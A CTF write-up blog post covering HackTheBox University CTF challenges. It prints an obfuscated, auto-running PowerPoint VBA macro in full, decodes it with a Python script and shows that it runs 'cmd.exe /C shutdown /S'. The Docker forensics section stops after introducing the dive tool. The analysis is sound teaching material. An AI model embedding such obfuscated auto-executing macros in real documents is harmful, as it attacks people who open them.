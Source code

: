 ```yaml
---
layout: post
title: "HTB University CTF Writeups: Upgrades & Peel Back The Layers"
image: ''
date:   2021-11-23 12:00:00
tags:
- hackthebox
- htb-uni-ctf
- reverse-engineering
- dfir
- docker
- office-macros
description: ''
categories:
published: false
comments: false
---
```


![intro](https://an00brektn.github.io/img/uni-ctf/Pasted image 20211121130152.png)

## Intro
Surprisingly, this year's HackTheBox University CTF had a few challenges that I knocked out in under 20 minutes. "Upgrades" was the easy-rated reversing challenge, and "Peel Back The Layers" was the easy-rated forensics challenge, and both simply required you look in the right spot. I'll walk through both in this post since neither was that long.

For "Upgrades", we're given a .pptm file, which is just a macro-enabled powerpoint file. We use olevba from the oletools toolkit to extract the code for the macros, and, to be thorough, recreate the script in Python to see what strings are in the file.

For "Peel Back The Layers", we're given the name of a Docker registry, and asked to find some new file that was inserted into it. We'll pull down the image and load it into dive, a super useful tool for docker reverse engineering. Looking though the layers, we find a shared object file added to the image, which we can extract and find the hardcoded flag.

* buh
{:toc}

## Reversing: Upgrades
### Description
`We received this strange advertisement via pneumatic tube, and it claims to be able to do amazing things! But we there's suspect something strange in it, can you uncover the truth?`

### Solving
We only get one file from the zip file, and that is `Upgrades.pptm`.
```bash
kali@transistor:~/ctf/htb_uni/rev_upgrades$ file Upgrades.pptm 
Upgrades.pptm: Microsoft PowerPoint 2007+
```

Typically, when a file from the Microsoft Office suite (e.g. Word, Excel, PowerPoint) has an "m" at the end of it, this is an indication that there are macros on the file. While the idea of macros on documents was created with good intent, they're most commonly used these days to get code execution on a target after phishing them. A typical document, when opened, might have some kind of image on top saying "You must click 'Enable Editing' and 'Enable Macros' to view this document", which is just a cybercriminal trying to lure the unsuspecting into triggering the code.

We can check if any macros on a document look suspicious using the [oletools](https://github.com/decalage2/oletools) toolkit, specifically, `olevba`. We get the following output.

```bash
kali@transistor:~/ctf/htb_uni/rev_upgrades$ olevba Upgrades.pptm 
olevba 0.60 on Python 3.9.7 - http://decalage.info/python/oletools
===============================================================================
FILE: Upgrades.pptm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: ppt/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Function q(g) As String
q = ""
For Each I In g
q = q & Chr((I * 59 - 54) And 255)
Next I
End Function
Sub OnSlideShowPageChange()
j = Array(q(Array(245, 46, 46, 162, 245, 162, 254, 250, 33, 185, 33)), _
q(Array(215, 120, 237, 94, 33, 162, 241, 107, 33, 20, 81, 198, 162, 219, 159, 172, 94, 33, 172, 94)), _
q(Array(245, 46, 46, 162, 89, 159, 120, 33, 162, 254, 63, 206, 63)), _
q(Array(89, 159, 120, 33, 162, 11, 198, 237, 46, 33, 107)), _
q(Array(232, 33, 94, 94, 33, 120, 162, 254, 237, 94, 198, 33)))
g = Int((UBound(j) + 1) * Rnd)
With ActivePresentation.Slides(2).Shapes(2).TextFrame
.TextRange.Text = j(g)
End With
If StrComp(Environ$(q(Array(81, 107, 33, 120, 172, 85, 185, 33))), q(Array(154, 254, 232, 3, 171, 171, 16, 29, 111, 228, 232, 245, 111, 89, 158, 219, 24, 210, 111, 171, 172, 219, 210, 46, 197, 76, 167, 233)), vbBinaryCompare) = 0 Then
VBA.CreateObject(q(Array(215, 11, 59, 120, 237, 146, 94, 236, 11, 250, 33, 198, 198))).Run (q(Array(59, 185, 46, 236, 33, 42, 33, 162, 223, 219, 162, 107, 250, 81, 94, 46, 159, 55, 172, 162, 223, 11)))
End If
End Sub


-------------------------------------------------------------------------------
VBA MACRO Slide1.cls 
in file: ppt/vbaProject.bin - OLE stream: 'VBA/Slide1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Label1_Click()

End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Label1_Click        |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

This doesn't really look that "bad", but it is a CTF, so of course it wouldn't be live malware. I can take the code that `olevba` identified and format it to be more readable.

```vbscript
Private Function q(g) As String
	q = ""
	For Each I In g
		q = q & Chr((I * 59 - 54) And 255)
		Next I
End Function

Sub OnSlideShowPageChange()
	j = Array(q(Array(245, 46, 46, 162, 245, 162, 254, 250, 33, 185, 33)), _
	q(Array(215, 120, 237, 94, 33, 162, 241, 107, 33, 20, 81, 198, 162, 219, 159, 172, 94, 33, 172, 94)), _
	q(Array(245, 46, 46, 162, 89, 159, 120, 33, 162, 254, 63, 206, 63)), _
	q(Array(89, 159, 120, 33, 162, 11, 198, 237, 46, 33, 107)), _
	q(Array(232, 33, 94, 94, 33, 120, 162, 254, 237, 94, 198, 33)))
	g = Int((UBound(j) + 1) * Rnd)
	With ActivePresentation.Slides(2).Shapes(2).TextFrame
		.TextRange.Text = j(g)
	End With
	If StrComp(Environ$(q(Array(81, 107, 33, 120, 172, 85, 185, 33))), q(Array(154, 254, 232, 3, 171, 171, 16, 29, 111, 228, 232, 245, 111, 89, 158, 219, 24, 210, 111, 171, 172, 219, 210, 46, 197, 76, 167, 233)), vbBinaryCompare) = 0 Then
		VBA.CreateObject(q(Array(215, 11, 59, 120, 237, 146, 94, 236, 11, 250, 33, 198, 198))).Run (q(Array(59, 185, 46, 236, 33, 42, 33, 162, 223, 219, 162, 107, 250, 81, 94, 46, 159, 55, 172, 162, 223, 11)))
	End If
End Sub
```

This program seems to be decoding arrays, and possibly running functions using them, but it doesn't seem malicious at all. We could go ahead and modify this so that it just prints out the strings that are supposed to come out of those arrays, but I'm also a big fan of rewriting it in Python (or at least recreate some components) to understand what's going on. After a little bit of going back and forth, I came up with this.

```python
#!/usr/bin/python3

def q(g):
	q = ""
	for I in g:
		q += chr((I * 59 - 54) & 255)
	print(q)
	return q
	
if __name__ == "__main__":
	array1 = q([245, 46, 46, 162, 245, 162, 254, 250, 33, 185, 33])
	array2 = q([215, 120, 237, 94, 33, 162, 241, 107, 33, 20, 81, 198, 162, 219, 159, 172, 94, 33, 172, 94])
	array3 = q([245, 46, 46, 162, 89, 159, 120, 33, 162, 254, 63, 206, 63])
	array4 = q([89, 159, 120, 33, 162, 11, 198, 237, 46, 33, 107])
	array5 = q([232, 33, 94, 94, 33, 120, 162, 254, 237, 94, 198, 33])
	j = [array1, array2, array3, array4, array5]
	
	# final bit
	array6 = q([81, 107, 33, 120, 172, 85, 185, 33])
	array7 = q([154, 254, 232, 3, 171, 171, 16, 29, 111, 228, 232, 245, 111, 89, 158, 219, 24, 210, 111, 171, 172, 219, 210, 46, 197, 76, 167, 233])
	
	array8 = q([215, 11, 59, 120, 237, 146, 94, 236, 11, 250, 33, 198, 198])
	array9 = q([59, 185, 46, 236, 33, 42, 33, 162, 223, 219, 162, 107, 250, 81, 94, 46, 159, 55, 172, 162, 223, 11])
```

Running the program gives this output, and we can submit the flag.
```shell
Add A Theme
Write Useful Content
Add More TODO
More Slides
Better Title
username
HTB{33zy_VBA_M4CR0_3nC0d1NG}
WScript.Shell
cmd.exe /C shutdown /S
```

Seems that the only bad thing is that it shuts down your computer. 

## Forensics: Peel Back The Layers
### Description
`An unknown maintainer managed to push an update to one of our public docker images. Our SOC team reported suspicious traffic coming from some of our steam factories ever since. The update got retracted making us unable to investigate further. We are concerned that this might refer to a supply-chain attack. Could you investigate?  
Docker Image: steammaintainer/gearrepairimage`

### Solving
After reading through a lot of the discussion in the discord, it seems like people pulled down the image and went searching for a needle in a haystack. While this works, I would like to take this time to highlight my favorite Docker reversing tool, [dive](https://github.com/wagoodman/dive).

Dive is a neat tool that lets you see all of the changes made to an image layer by layer. This can help expedite the process of reversing because you get a list of things that were done to the image, and are able to view those changes in the file system of the image. You still have to navigate to the overlay directory on your machine to get the file, but this has saved me a lot of time during CTFs in the past.

I'll switch over to my Remnux machine to show exactly how it's done.